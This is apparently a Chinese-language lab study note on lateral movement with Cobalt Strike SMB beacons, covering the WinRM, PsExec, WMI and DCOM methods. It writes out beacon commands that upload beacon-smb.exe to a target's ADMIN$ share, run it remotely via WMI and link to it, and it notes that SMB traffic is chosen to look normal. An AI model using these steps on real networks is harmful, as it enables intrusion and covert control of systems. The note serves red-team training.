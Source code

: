 ![img]()

这里的横向都使用smb的p2p beacon，因为smb普遍安装在windows，可以伪装成正常流量

# PowerShell Remoting

当前账号，枚举将要横向的目标计算机的架构

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217567944.png)

使用```winrm64```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217648208.png)

使用```winrm```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217760830.png)

# PsExec

使用```psexec64```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217855448.png)

使用```psexec```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217912569.png)

使用```psexec_psh```横向到```srv-1```，使用smb监听器

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659217968185.png)

# Windows Management Instrumentation (WMI)

1. 使用WMI横向，首先要生成一个SMB的p2p beacon,然后上传到目标靶机
```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
```

2. 使用```remote-exec```命令，远程执行beacon-smb.exe
```
remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
```

3. 连接目标靶机上的smb beacon
```
link srv-1
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659218159039.png)

# DCOM

这个方法跟WMI差不多：1，生成beacon，上传到靶机。2，远程执行。3，连接。

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659218634868.png)